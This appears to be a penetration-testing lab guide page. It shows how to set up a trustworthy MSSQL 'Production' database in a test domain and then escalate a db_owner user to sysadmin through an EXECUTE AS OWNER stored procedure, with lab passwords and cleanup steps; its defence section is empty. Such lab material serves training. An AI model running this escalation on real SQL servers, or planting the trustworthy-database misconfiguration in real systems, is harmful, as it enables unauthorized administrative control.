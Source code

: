 # DB-Owner

## Configuring

### Prerequisite

{% content-ref url="../initial-access/normal-domain-user-access.md" %}
[normal-domain-user-access.md](../initial-access/normal-domain-user-access.md)
{% endcontent-ref %}

### Configuring

1. Login to `WEB01` as the `Administrator` user with password `Welcome01!`.
2. Open "Microsoft SQL Server Management Studio"

![](<../../../../.gitbook/assets/image (3) (1) (1).png>)

3\. Login with the `sa` user using the password `sa` or `Password1!` (Depending if you changed it for another vulnerability)

![](<../../../../.gitbook/assets/image (30) (1) (1).png>)

4\. Click “New Query” button and use the SQL query below to make `Amsterdam\Richard` database owner of the `production` database.

![](<../../../../.gitbook/assets/image (10) (1) (2) (1).png>)

```
Use Production;
EXEC sp_addrolemember [db_owner], [AMSTERDAM\Richard];
```

5\. Change the Owner of the database to the SA account. Right click on "Production", click "Properties" and open the "Files" tab. Click on the "..." and fill in "sa" and click on "OK"

![](<../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1).png>)

6\. Execute the following query to make sure `Amsterdam\Richard` is Database owner and the real Owner of the database is `sa`:

```
select rp.name as database_role, mp.name as database_user
from sys.database_role_members drm
join sys.database_principals rp on (drm.role_principal_id = rp.principal_id)
join sys.database_principals mp on (drm.member_principal_id = mp.principal_id)

SELECT suser_sname(owner_sid) FROM sys.databases WHERE name = 'Production'
```

![](<../../../../.gitbook/assets/image (68) (1) (1) (1) (1) (1).png>)

![](<../../../../.gitbook/assets/image (53) (1) (1).png>)

7\. Set the database as trustworthy and check if it is:

```
ALTER DATABASE MyAppDb SET TRUSTWORTHY ON
```

![](<../../../../.gitbook/assets/image (65) (1) (1) (1) (1) (1).png>)

```
SELECT a.name,b.is_trustworthy_on
FROM master..sysdatabases as a
INNER JOIN sys.databases as b
ON a.name=b.name;
```

![](<../../../../.gitbook/assets/image (39) (1) (1) (1) (1).png>)

The `1` after `Production` shows us that the database is `ThrustWorthy`.

## Attacking

### How it works

If the database is set as trustworthy and we have db\_owner privileges, we could elevate our privileges and execute queries as sa.

### Tools

* [HeidiSql](https://www.heidisql.com/)

### Executing attack

1. Login to `WS01` as Richard with the password `Sample123`.
2. Download and start heidiSQL.
3. Click on "New" on the left bottom and configure the following settings:

* Network Type: `Microsoft SQL Server (TCP/IP)`
* Library: `SQLOLEDB`
* Hostname / IP: `WEB01.amsterdam.bank.local`
* Select: "Use Windows Authentication"
* Port: `1433`

![](<../../../../.gitbook/assets/image (58) (1) (1) (1) (1) (1).png>)

4\. Click "OK" on the security Issue warning.

#### Prerequisites

5\. Click on the "Query" tab and enter the following Query to check if we are `db_owner`:

```
select rp.name as database_role, mp.name as database_user
from sys.database_role_members drm
join sys.database_principals rp on (drm.role_principal_id = rp.principal_id)
join sys.database_principals mp on (drm.member_principal_id = mp.principal_id)
```

![](<../../../../.gitbook/assets/image (66) (1) (1) (1) (1) (1) (1) (1).png>)

Our current user `AMSTERDAM\richard` is db\_owner.

6\. Check who is the owner of the database.

```
SELECT suser_sname(owner_sid), * FROM sys.databases
```

![](<../../../../.gitbook/assets/image (59) (1) (1) (1).png>)

`sa` is the owner of the `production` database.

6\. Check if the database is set to trustworthy

```
SELECT a.name,b.is_trustworthy_on
FROM master..sysdatabases as a
INNER JOIN sys.databases as b
ON a.name=b.name;
```

![](<../../../../.gitbook/assets/image (13) (1) (1) (1) (1) (1) (1) (1).png>)

The Production database is trustworty.

#### Executing the attack

7\. Create a stored procedure which will add `AMSTERDAM\Richard` as sysadmin.

```
USE Production;
CREATE PROCEDURE sp_elevate_me
WITH EXECUTE AS OWNER
AS
EXEC sp_addsrvrolemember 'AMSTERDAM\Richard','sysadmin'
```

![](<../../../../.gitbook/assets/image (57) (1) (1) (1).png>)

8\. Execute the stored procedure:

```
USE Production;
EXEC sp_elevate_me
```

![](<../../../../.gitbook/assets/image (1) (1) (1) (1) (1).png>)

9\. Check if we are sysadmin:

```
SELECT is_srvrolemember('sysadmin')
```

![](<../../../../.gitbook/assets/image (34) (1) (1) (1) (1) (1) (1).png>)

The `1` means that we are sysadmin! Check the executing commands page under SQL Server Attacks to read how to execute cmd commands:

{% content-ref url="../executing-commands.md" %}
[executing-commands.md](../executing-commands.md)
{% endcontent-ref %}

#### Cleanup

1. Login to WEB01 as Administrator, start the "Microsoft SQL Server Management Studio" and login as Administrator.
2. Execute the following query:

```
EXEC sp_dropsrvrolemember 'AMSTERDAM\Richard','sysadmin';
DROP PROCEDURE sp_elevate_me;
```

## Defending

### Recommendations



### Detection



## References

{% embed url="https://www.netspi.com/blog/technical/network-penetration-testing/hacking-sql-server-stored-procedures-part-1-untrustworthy-databases" %}
